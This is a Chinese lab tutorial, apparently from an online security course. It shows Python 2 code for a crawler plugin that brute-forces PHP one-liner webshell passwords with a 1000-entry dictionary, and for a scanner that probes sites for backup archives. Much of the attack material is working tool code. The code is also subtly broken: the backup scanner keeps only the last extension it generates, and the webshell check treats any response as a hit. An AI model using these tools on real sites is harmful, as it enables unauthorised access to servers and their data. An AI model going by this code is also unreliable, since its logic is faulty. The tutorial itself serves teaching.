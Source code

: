 # 基于爬虫开发webshell爆破插件与备份扫描

## 一、实验介绍

### 1.1 实验内容
看了上节课的的教程，还不过瘾吗？我们再接着来写两个基于爬虫的插件
一个是webshell爆破插件，一个是基于爬虫的备份扫描。

### 1.2 实验介绍
1. 列表项我们可以通过爬虫系统调用webshell爆破对每个页面进行1000+字典的爆破，有时候也会有出其不意的效果。
2. 列表项另外也可以编写一个基于爬虫的备份扫描，这个插件很有必要，一般站长喜欢用文件的命名后门加上`.bak`，或者其他来备份文件，我们创造一个基于爬虫的备份文件扫描程序来查看是否存在这些程序。

### 1.3 实验环境
+ Python2.7   
+ Xfce终端
+ Sublime

### 1.4 适合人群
本课程难度为一般，属于初级级别课程，适合具有Python基础的用户，熟悉python基础知识加深巩固。

### 1.5 代码获取

你可以通过下面命令将代码下载到实验楼环境中，作为参照对比进行学习。
```bash
$ wget http://labfile.oss.aliyuncs.com/courses/761/shiyanlouscan4.zip
$ unzip shiyanlouscan4.zip
```

### 1.6 代码运行
```
$ python w8ay.py
```

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2649timestamp1489726407309.png/wm)

## 二、实验步骤
### 2.1 webhsell爆破插件编写
#### 2.1.1 前言
这个功能虽然在实战的时候比较鸡肋，但有时候也有出奇不意的效果。
在这里我们参考这篇文章：[http://www.myhack58.com/Article/60/61/2016/82250.htm](http://www.myhack58.com/Article/60/61/2016/82250.htm)，
这篇文章提供一个方法可以快速爆破webshell的1000个密码，由这个思路，我们的webshell爆破插件将可以很快检测，不需要多少时间。

#### 2.1.2 代码编写
如果看懂了那篇文章的思路，这里就直接给出代码吧。
在`script`目录中新建`webshell_check.py`文件。
```python
#!/usr/bin/env python
# __author__= 'w8ay'

#对每个.php结尾的文件进行一句话爆破
import os
import sys

from lib.core.Download import Downloader

filename = os.path.join(sys.path[0],"data","web_shell.dic")
payload = []
f = open(filename)
a = 0
for i in f:
    payload.append(i.strip())
    a+=1
    if(a==999):
        break

class spider:
    def run(self,url,html):
        if(not url.endswith(".php")):
            return False
        print '[Webshell check]:',url
        post_data = {}
        for _payload in payload:
            post_data[_payload] = 'echo "password is %s";' % _payload
            r = Downloader.post(url,post_data)
            if(r):
                print("webshell:%s"%r)
                return True
        return False
```
字典文件随意找个top1000弱密码放到data目录中，命名为`web_shell.dic`。
可以通过 wget 命令获取。
```
$ wget http://labfile.oss.aliyuncs.com/courses/761/web_shell.dic
```
### 2.2 基于爬虫的备份扫描器
#### 2.2.1 前言
很幸运，已经有前辈大牛们为我们造好了轮子：[https://github.com/secfree/bcrpscan](https://github.com/secfree/bcrpscan)。当然，轮子造的太好了，我们只需要其中的生成路径部分，简单修改了一下，使输入一个网站路径就可以得出备份文件地址。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2649timestamp1489332973055.png/wm)

#### 2.2.2 代码编写
在`script`目录下新建`bak_check.py`。
代码：
```python
#!/usr/bin/env python
# __author__= 'w8ay'
from lib.core.Download import Downloader
import sys
import urlparse
DIR_PROBE_EXTS = ['.tar.gz', '.zip', '.rar', '.tar.bz2']
FILE_PROBE_EXTS = ['.bak', '.swp', '.1']
download = Downloader()

def get_parent_paths(path):
    paths = []
    if not path or path[0] != '/':
        return paths
    paths.append(path)
    tph = path
    if path[-1] == '/':
        tph = path[:-1]
    while tph:
        tph = tph[:tph.rfind('/')+1]
        paths.append(tph)
        tph = tph[:-1]
    return paths
class spider:
    def run(self,url,html):
        pr = urlparse.urlparse(url)
        paths = get_parent_paths(pr.path)
        web_paths = []
        for p in paths:
            if p == "/":
                for ext in DIR_PROBE_EXTS:
                    u = '%s://%s%s%s' % (pr.scheme, pr.netloc, p, pr.netloc+ext)
            else:
                if p[-1] == '/':
                    for ext in DIR_PROBE_EXTS:
                        u = '%s://%s%s%s' % (pr.scheme, pr.netloc, p[:-1], ext)
                else:
                    for ext in FILE_PROBE_EXTS:
                        u = '%s://%s%s%s' % (pr.scheme, pr.netloc, p, ext)
            web_paths.append(u)
        for path in web_paths:
            print "[web path]:%s"%path
            if(download.get(path) is not None):
                print "[+] bak file has found :%s"%path
        return False
```

### 效果图
![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2649timestamp1489726374972.png/wm)
